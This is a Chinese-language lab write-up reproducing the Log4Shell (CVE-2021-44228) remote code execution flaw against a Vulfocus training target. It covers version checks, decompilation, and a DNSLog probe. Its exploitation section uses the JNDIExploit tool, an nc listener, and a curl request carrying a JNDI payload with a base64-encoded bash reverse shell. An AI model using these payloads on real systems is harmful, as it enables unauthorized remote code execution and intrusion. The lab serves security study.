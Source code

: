 # Vulfocus复现log4j2(CVE-2021-44228)漏洞实验



## 一.实验环境
* kali2024.3
* Vulfocus
* Docker ：20.10
* Docker-Compose ：1.29
* 漏洞环境：Vulfocus 提供的 Log4j2 漏洞靶场
## 二.实验目的
* 复现 Log4j2 远程代码执行（RCE）漏洞（CVE-2021-44228）
* 利用 JNDI 注入实现远程命令执行
* 探索漏洞利用及防御措施
## 三.实验过程

### 1、环境搭建
* 安装 Docker 和 Docker-Compose
* 安装 Vulfocus
* Vulfocus Web 界面启动该靶场。

  ![alt text](images\image.png)

  访问地址`访问地址: 192.168.56.121:36795`

  ![alt text](images\image-1.png)



### 2、log4j2漏洞复现
#### （1）、log4j2漏洞原理
 
CVE-2021-44228（Log4Shell）是 Apache Log4j2 组件中的一个 远程代码执行（RCE）漏洞。该漏洞允许攻击者通过 JNDI 注入，利用 LDAP 服务器 加载远程恶意代码，从而在目标服务器上执行任意代码。主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
#### （2）、检测漏洞存在性
* 方法一：确认受漏洞影响组件的版本号，此漏洞主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
  * 查看容器名称
     ```
     docker ps

     ```
     ![alt text](images\image-2.png)

  * 进入容器Shell`docker exec -it cool_gould /bin/bash`
  * 下载demo.jar文件到本地并查看`docker cp 19ea57acca57:/demo/demo.jar ~/Downloads/`
  很明显看到此log4j2的版本为2.14.0，属于漏洞版本

    ![alt text](images\image-3.png)
* 方法二：反汇编dome.jar文件，找到漏洞代码并定位到其中的传递参数（`log4j2逆向`）
   * 下载Java Decompiler反汇编工具`https://java-decompiler.github.io/`
   * 使用Java Decompiler反汇编工具对demo.jar文件进行反汇编，并查看其中的代码
   
     ![alt text](images\image-7.png)
   * **漏洞代码分析**：
      *   在以下代码中`payload` 变量直接传递到 `logger` 进行日志记录。没有进行任何过滤，意味着如果 `payload` 是恶意 `JNDI `语句，Log4j2 会执行 JNDI 解析。导致攻击者可以构造恶意 ${jndi:ldap://...} 语句，让服务器远程加载并执行恶意代码，最终实现 远程代码执行（RCE）。
     ```
      logger.error("{}", payload);
      logger.info("{}", payload);
      logger.info(payload);
      logger.error(payload);
     ```
     * 这两行代码 明确 开启了 JNDI 远程加载。JNDI 本应默认不允许加载远程代码，但这里强行启用了该功能，使漏洞更容易被利用。
     
      ```
       System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

       ```
* 方法三：（使用 PoC 手动测试 ${jndi:ldap://0qxc3d.dnslog.cn/exp}）
  * **使用此方法的优点**：DNSLog 提供了一个 唯一的子域名，可以用来监听 目标服务器是否解析了我们提供的 JNDI 网址。并且无需搭建服务器，只需要获取 一个随机子域名，目标服务器如果解析它，我们就可以在 DNSLog 平台上看到记录，证明目标可能存在漏洞。
  * 获取 DNSLog 专属子域名：访问 DNSLog 平台：`http://dnslog.cn/`点击 `“获取子域名”`，它会生成一个唯一的随机子域，`i6dryn.dnslog.cn`

  ![alt text](images\image-4.png)
  * 构造无害 `Payload`，向靶机发送包含 JNDI 协议的恶意 JNDI 载荷，触发 DNS 解析
   `curl 'http://192.168.56.121:39327/hello' -G --data-urlencode 'payload=${jndi:dns://i6dryn.dnslog.cn}'`

    ![alt text](images\image-5.png)
   * 访问 DNSLog 平台，查看解析记录，目标服务器的 Log4j 解析了 {jndi:dns://i6dryn.dnslog.cn}'`并尝试访  问 LDAP 服务器。访问 `i6dryn.dnslog.cn` 说明目标服务器被成功诱导解析，这证明 Log4j2 可能存在漏洞。

    ![alt text](images\image-6.png)

#### （3）、漏洞可利用性验证
##### <1>、下载JNDIExploit.v1.2 Java 反序列化漏洞利用工具，并解压
`wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip `
  
![alt text](images\image-11.png)


##### <2>、在在攻击者机器（ 192.168.56.123）上运行：
`nc -l -p 7777`它会在 端口 7777 上监听 传入的连接。此时，如果目标服务器反向连接到这个端口，攻击者就可以获取远程shell 访问权限。



##### <3>、启动 JNDIExploit 工具，伪造一个 LDAP/RMI 服务器
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.123`
该命令用于 启动 JNDIExploit 工具，伪造一个 LDAP 服务器，监听 IP 192.168.56.123，以便利用 Java 应用程序的 JNDI 注入漏洞（如 Log4Shell）。当目标服务器解析特定 JNDI 语句（如 ${jndi:ldap://192.168.56.123:1389/Exploit}）时，会从该伪造服务器加载恶意代码，从而实现远程代码执行（RCE）或反向 shell 攻击。

##### <4>、发送 GET 请求， 触发 JNDI 注入漏洞
该命令通过 curl 发送 GET 请求，尝试在目标服务器 `192.168.56.121:30815` 触发 JNDI 注入漏洞，并让目标服务器从攻击者的 伪造 LDAP 服务器 (`192.168.56.123:1389`) 下载并执行恶意代码。
```
curl -G http://192.168.56.121:30815/hello --data-urlencode 'payload=${jndi:ldap://192.168.56.123:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.123/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'

```
![alt text](images\image-13.png)
##### <5>、当发送get请求后，可以看到让目标服务器通过 LDAP 服务器下载 Base64 编码的反向 shell，从而远程控制目标机器
![alt text](images\image-14.png)
##### <6>、在攻击者主机中输入`ls /tmp`显示靶机的flag，将flag输入vulfocus中，成功完成漏洞可利用性验证
![alt text](images\image-15.png)

![alt text](images\image-12.png)

#### 3、log4j2逆向（见漏洞存在性检测方法二）


 
